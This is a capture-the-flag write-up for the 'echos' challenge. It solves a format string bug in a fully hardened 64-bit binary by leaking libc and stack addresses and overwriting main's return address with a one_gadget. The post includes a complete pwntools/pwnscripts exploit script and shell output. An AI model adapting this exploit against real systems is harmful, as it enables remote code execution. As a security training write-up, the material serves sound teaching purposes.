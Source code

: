 # my first echo server [hard]
Author: k0wa1ski#6150 and Faith#2563

*Hello there! I learnt C last week and already made my own SaaS product, check it out! I even made sure not to use compiler flags like --please-make-me-extremely-insecure, so everything should be swell.*

`nc chal.duc.tf 30001`

Hint - The challenge server is running Ubuntu 18.04.

Attached files: `echos` (sha256: 2311c57a6436e56814e1fe82bdd728f90e5832fda8abc71375ef3ef8d9d239ca)

#### This challenge was quickly finished with [pwnscripts](https://github.com/152334H/pwnscripts). Try it!

## Solving
```C
int main() {
  char s[0x48]; // [rsp+10h] [rbp-50h]
  int64_t cookie = __readfsqword(0x28u); // [rsp+58h] [rbp-8h]
  for (int i = 0; i <= 2; i++) {
    fgets(s, 0x40, stdin);
    printf(s);
  }
  return 0;
}
```
```python
$ checksec echos
[*] 'echos'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
This challenge is a simple exercise in [format string exploitation](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_example/). Given a binary with all security hardening measures enabled, the goal is to open a shell using nothing but user-controlled call**s** to `printf()`.

It's really important that there's more than 1 `printf()` call; as far as I know, it's impossible<sup>1</sup> to exploit a hardened binary with only a single call to `printf()`.

Anyway, with 2 `printf()` calls, the solution is visible to anyone familiar with FSBs<sup>2</sup>:
1. Leak some addresses with `%m$p` in the first call. The two addresses we're leaking here are
   * `__libc_start_main_ret`, which is a libc leak (for FSBs) that's always available in a binary that calls `main()`
   * The stack address, which can usually be leaked from somewhere up in the call stack, mostly because the stack is never cleaned
2. Abuse `%m$n` to replace the return address of `main()` with a jump to a `one_gadget`.

The implementation for both steps is also trivial:

0. Find the `printf()` offsets to the addresses to be leaked using `pwnscripts.fsb.find_offset`.
1. Send a payload of `%m$p,%m$p` (with the offsets found earlier) to leak out the relevant addresses. Calculate the libc base (`context.libc.calc_base`) and the location of the return pointer<sup>3</sup> here.
2. Use `pwntools`' `fmtstr_payload` to generate the whole `%n` payload. Use `write_size='short'` here, because the default `write_size` generates a payload too large for `./echos`' `fgets(64)` to accept.

```python
from pwnscripts import *
context.binary = 'echos'
context.libc_database = 'libc-database'
context.libc = 'libc6_2.27-3ubuntu1_amd64'  # Assumed from prev chals
args = ('chal.duc.tf', 30001)

@context.quiet
def printf(l:str):
    r = remote(*args)
    r.send(l)
    return r.recvline()

# Finding printf offsets.
config.PRINTF_MIN = 7
buffer  = fsb.find_offset.buffer(printf, maxlen=63)
stack   = fsb.find_offset.stack(printf) # This requires config.PRINTF_MIN
ret_off = fsb.find_offset.libc(printf, context.libc.symbols['__libc_start_main_ret']%0x100)
DIST_TO_RET = (ret_off-buffer)*context.bytes

# Leak stack & libc
r = remote(*args)
r.sendline('%{}$p,%{}$p'.format(stack, ret_off))
stack_leak, libc_main_ret = extract_all_hex(r.recvline())
buffer_addr = stack_leak-0x130  # EMPIRICAL OFFSET
context.libc.calc_base('__libc_start_main_ret', libc_main_ret)

# Return to one_gadget; use 'short' to stay within input length
write = {buffer_addr+DIST_TO_RET: context.libc.select_gadget(1)}
r.sendline(payload:=fmtstr_payload(buffer, write, write_size='short'))
strlen = payload.find(b'\0')         # This part is here to shut up the whitespace spam of fmtstr_payload
r.recvuntil(payload[strlen-4:strlen])
r.interactive()
```
That's it.
```bash
[*] pwnscripts.fsb.find_offset for buffer: 8
[*] pwnscripts.fsb.find_offset for 'stack': 16
[*] pwnscripts.fsb.find_offset for 'libc': 19
[+] Opening connection to chal.duc.tf on port 30001: Done
[*] Switching to interactive mode
$ ls
echos
flag.txt
$ cat flag.txt
```
## Flag
`DUCTF{D@N6340U$_AF_F0RMAT_STTR1NG$}`

## Footnotes
1. And do inform me if I'm wrong!
2. Format String Bugs. And perhaps *familiar* is too weak a term: "done enough times to be second nature" may be more accurate.
3. There's a small detail neglected here, because there isn't actually an automated method to find the stack's return pointer in `pwnscripts` (for now). In order to find where `main()`'s stack resided, I used `gdb` to find the approximate difference between the leaked stack address and `main()`'s stack, followed by a `%s` test to ensure that the calculated location of `main()`'s stack was valid:
   ```python
   # ... insert first leak here ...
   # Test that leaked address calculation is valid:
   print_stack = '%{}$s'.format(buffer+1).ljust(8).encode() + pack(stack_leak-0x130+0x10) + cyclic(40).encode()
   r.sendline(print_stack)
   print(r.recvall())
   ```
   ```python
   [+] Opening connection to chal.duc.tf on port 30001: Done
   b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa\n'
   ```